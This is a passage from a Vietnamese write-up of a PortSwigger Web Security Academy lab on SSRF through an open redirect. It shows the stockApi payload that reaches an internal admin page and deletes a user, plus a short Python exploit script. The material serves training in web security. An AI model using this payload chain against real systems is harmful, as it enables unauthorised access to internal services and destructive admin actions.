 ![image](https://hackmd.io/_uploads/r1VznGqKp.png)

Truyền `path=http://192.168.0.12:8080/admin`, ta đã truy cập được trang admin của ứng dụng khác thành công.

và mình xóa người dùng carlos bằng

```
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

và mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0aa40009048a191982db3e55002400af.web-security-academy.net'

session = requests.Session()

data_url = 'stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos'

response = requests.post(
    url + '/product/stock',
    data=data_url,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/rJw9azctp.png)

mục đích xóa người dùng carlos của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/r14DafqK6.png)

bài này chỉ cho phép chúng ta truy cập dữ liệu tại máy server local nhưng có thêm chức năng chuyển hướng đến sản phẩm tiếp theo lại không filter đường dẫn nên đã cho phép chúng ta chuyển hướng đến máy khác trong mạng nội bộ và thực hiện mục đích

## 6. Lab: SSRF with whitelist-based input filter

link: https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

